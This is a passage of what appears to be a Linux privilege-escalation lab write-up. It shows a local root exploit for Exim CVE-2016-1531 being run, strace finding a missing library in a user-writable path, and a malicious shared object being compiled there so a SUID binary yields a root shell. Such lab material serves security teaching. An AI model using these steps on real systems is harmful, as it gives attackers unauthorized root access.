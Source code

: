- Running the exploit to gain root shell:

```bash
user@debian:~$ ls -l tools/suid/exim/cve-2016-1531.sh 
-rwxr-xr-x 1 user user 643 May 15  2017 tools/suid/exim/cve-2016-1531.sh
user@debian:~$ ./tools/suid/exim/cve-2016-1531.sh 

[ CVE-2016-1531 local root exploit ]
sh-4.1# whoami 
root
sh-4.1# id
uid=0(root) gid=1000(user) groups=0(root)
```

---

##  SUID / SGID Executables - Shared Object Injection

- Running **strace** on the SUID executable `suid-so`:

```bash
user@debian:~$ ls -l /usr/local/bin/suid-so
-rwsr-sr-x 1 root staff 9861 May 14  2017 /usr/local/bin/suid-so
user@debian:~$ strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
open("/etc/ld.so.cache", O_RDONLY)      = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libdl.so.2", O_RDONLY)       = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/usr/lib/libstdc++.so.6", O_RDONLY) = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libm.so.6", O_RDONLY)        = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libgcc_s.so.1", O_RDONLY)    = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libc.so.6", O_RDONLY)        = 3
open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)
```

- Creating a malicious shared object file:

```bash
user@debian:~$ mkdir .config
user@debian:~$ cd .config/
user@debian:~/.config$ gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
user@debian:~/.config$ ls
libcalc.so
```

- Gaining root access by running the vulnerable SUID binary:

```bash
user@debian:~/.config$ /usr/local/bin/suid-so
Calculating something, please wait...
bash-4.1# whoami
root
bash-4.1# id
uid=0(root) gid=1000(user) egid=50(staff) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
```

---